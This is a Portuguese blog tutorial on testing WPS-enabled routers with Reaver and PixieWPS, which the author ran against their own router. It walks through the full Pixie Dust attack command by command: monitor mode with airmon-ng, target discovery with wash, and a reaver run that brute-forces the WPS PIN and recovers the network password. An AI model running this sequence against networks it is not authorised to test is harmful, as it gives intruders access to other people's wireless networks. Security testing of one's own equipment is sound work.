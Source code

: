 ```yaml
---
layout: post
title:  "Explorando a vulnerabilidade do WPS"
date:   2019-03-11 19:00:00 -0300
---
```




Neste post, vou mostrar como realizar um teste de segurança em redes sem fio, que possuam o WPS ativo. Alguns roteadores possuem uma vulnerabilidade que permite realizar um ataque de brute force para encontrar o PIN WPS, uma vez identificado o PIN, é feita a autenticação, e então, temos acesso a senha da rede wireless. Para realizar o teste, utilizei meu roteador e criei uma rede apenas para este fim.

Para realizar esse teste, utilizei:

[Linux Mint](https://www.linuxmint.com/)

[PixieWPS](https://github.com/wiire/pixiewps)

[Reaver-wps-fork-t6x](https://github.com/t6x/reaver-wps-fork-t6x)

Para começar,é necessário instalar as dependências para o Reaver e PixieWPS.

Instale os seguintes pacotes:

	# apt-get -y install build-essential libpcap-dev aircrack-ng

Depois de instalados os pacotes acima, pode instalar o Reaver e PixieWPS.

### PixieWPS  
Para fazer download do projeto, escolha utilizar um dos comandos abaixo:

	$ git clone https://github.com/wiire/pixiewps

ou

	$ wget https://github.com/wiire/pixiewps/archive/master.zip && unzip master.zip

Feito o download, será preciso executar estes comandos:

	$ cd pixiewps*/
	$ cd src/
	$ make
	$ sudo make install

### Reaver
Para fazer download do projeto, escolha utilizar um dos comandos abaixo:

	$ git clone https://github.com/t6x/reaver-wps-fork-t6x

ou

	$ wget https://github.com/t6x/reaver-wps-fork-t6x/archive/master.zip && unzip master.zip

Feito o download, será preciso executar estes comandos:

	$ cd reaver-wps-fork-t6x*/
	$ cd src/
	$ ./configure
	$ make
	$ sudo make install

Pronto!

---

### Configurações e execução
Agora Vamos alterar o modo de funcionamento da interface wireless.

É necessário identificar a interface wireless, para isso, basta usar o comando:

	$ iwconfig

<figure>
  <img src="https://cdn-images-1.medium.com/max/800/1*RIltC4xzvTb0XFDRoBm-4g.png" alt=" "/>
  <figcaption style="display: block; text-align: center;">Neste caso, temos a wlp6s0 como interface wireless.</figcaption>
</figure>

Após identificar a interface wireless, altere o modo de funcionamento para o modo “Monitor”, para isso utilize o comando:

	# airmon-ng start wlp6s0

<figure>
  <img src="https://cdn-images-1.medium.com/max/800/1*qFn3xDZFADmTsBxS30qV3g.png" alt=" "/>
</figure>

Na saída do comando acima, está descrito entre parenteses a informação de que foi habilitado o modo monitor na interface virtual “mon0”. Além disso, foram encontrados 5 processos que podem causar algum bug ao utilizar a interface em modo monitor, para garantir que não terá nenhum problema, esses processos devem ser encerrados, para isso basta usar o comando kill, seguido dos PID’s dos processos listados.

Neste caso:

	# kill 897 898 958 1192 1273

Agora desabilite a interface wireless “wlp6s0”, para que não haja problemas ao identificar a rede alvo, com o comando:

	# ifconfig wlp6s0 down

<figure>
  <img src="https://cdn-images-1.medium.com/max/800/1*3ixmC1M0Pt48FZ0f5pXUBw.png" alt=" "/>
</figure>

Após ter encerrado os processos que podem causar problemas no funcionamento do airmon-ng e desabilitar a interface wireless que não será utilizada, vamos ao próximo passo, localizar a rede alvo. Para isso, utilize o comando “wash” que lista somente redes com WPS ativo.

	# wash -i mon0

<figure>
  <img src="https://cdn-images-1.medium.com/max/800/1*SeCz_eM4t9ivBPUTBpMS0Q.png" alt=" "/>
</figure>

Identificada a rede alvo, passe os parâmetros necessários para executar o Reaver e PixieWPS, com o seguinte comando:

	# reaver -i mon0 -b E8:CC:18:BE:01:AC -c 6 -vvv -K 1

<figure>
  <img src="https://cdn-images-1.medium.com/max/800/1*KZmJRaJY7D5QLtB2iQmz9g.png" alt=" "/>
</figure>

Os parâmetros passados foram: 
- -i {interface wireless} 
- -b {MAC Adress alvo} 
- -c {Canal de trasmissão}

 Os dois últimos, são “-vvv” para ativar o modo verbose, para exibir todas as mensagens de cada etapa do processo e -K 1 que faz com que o Reaver passe os dados referentes ao PKE, PKR, e-hash1 e e-hash2 automaticamente, o pixieWPS fará um brute force “off-line”, evitando que o roteador alvo bloqueie a conexão por meio do WPS após algumas tentativas, dessa forma serão testados todos os PIN’s. Por rodar o brute force com os dados coletados pelo Reaver, não há necessidade de a cada tentativa fazer a comunicação com o alvo, reduzindo drasticamente o tempo necessário para que o PIN seja encontrado, o tempo necessário em média, não supera os 30 minutos, porém a depender da capacidade de processamento do seu computador, esse tempo pode variar.

Vale lembrar que não são todos os roteadores que possuem essa vulnerabilidade, [neste link](https://docs.google.com/spreadsheets/d/1tSlbqVQ59kGn8hgmwcPTHUECQ3o9YhXR91A_p7Nnj5Y/edit?pref=2&pli=1#gid=2048815923), há uma lista de dispositivos vulneráveis.